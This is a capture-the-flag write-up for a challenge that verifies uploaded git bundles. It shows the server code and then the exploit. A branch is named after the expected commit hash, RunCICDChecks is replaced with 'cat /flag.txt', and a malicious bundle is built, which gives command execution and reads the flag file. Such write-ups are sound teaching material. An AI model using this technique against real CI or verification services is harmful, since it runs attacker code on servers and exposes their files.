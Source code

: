 ## Vulnerability Explanation

The solution consists of noticing four key lines in main.py

1- Check if commit hash 037a118c4020f15c933b269580894e6587802818 exists in the bundle input

```python
subprocess.run(
                ["git", "rev-list", "037a118c4020f15c933b269580894e6587802818"],
                cwd=local_dir,
                capture_output=True,
                text=True,
                check=False
)
```

2- Checkout to this commit hash

```python
subprocess.run(
                ["git", "checkout", "037a118c4020f15c933b269580894e6587802818"],
                cwd=local_dir,
                capture_output=True,
                text=True,
                check=False
)
```

This will be exploited to checkout to a branch with name 037a118c4020f15c933b269580894e6587802818 that we control

3- Run `RunCICDChecks` script

```python
subprocess.run(
                ["./RunCICDChecks"],
                cwd=local_dir,
                capture_output=True,
                text=True,
                check=False
)
```

4- Embed the output of the previous command in result.html

```python
output = run_result.stdout.strip() or "Verification completed successfully!"
                return templates.TemplateResponse(
                    "result.html",
                    {
                        "request": request,
                        "success": True,
                        "output": output
                    }
)
```

## Exploitation Steps

Our workflow goes as follow:

1- Clone the repo that we are talking about in the challenge description

```bash
git clone https://github.com/mahdicalvine/University-Project.git
```

This will lead us to bypass the check on step 1 which is commit hash check

2- Create a branch with the exact commit hash (`037a118c4020f15c933b269580894e6587802818`)

```bash
git branch 037a118c4020f15c933b269580894e6587802818 && git checkout 037a118c4020f15c933b269580894e6587802818
```

3- Over write `RunCICDChecks` content with something like `cat /flag.txt`, commit then bundle

```bash
cat > RunCICDChecks <<EOF
#! /bib/sh

cat /flag.txt
EOF
```

Another thing to consider is to make the script executable before commiting, so

```bash
chmod +x RunCICDChecks
```

Then

```bash
git add . && git commit -m "Pwned"
```

4- Bunlde the repo

```bash
git bundle create malicious.bundle --all
```

### Flag: ghctf{d1dnt_m1ss_y0uR_61t_617hub_w0rksh0p_r1gh7???}
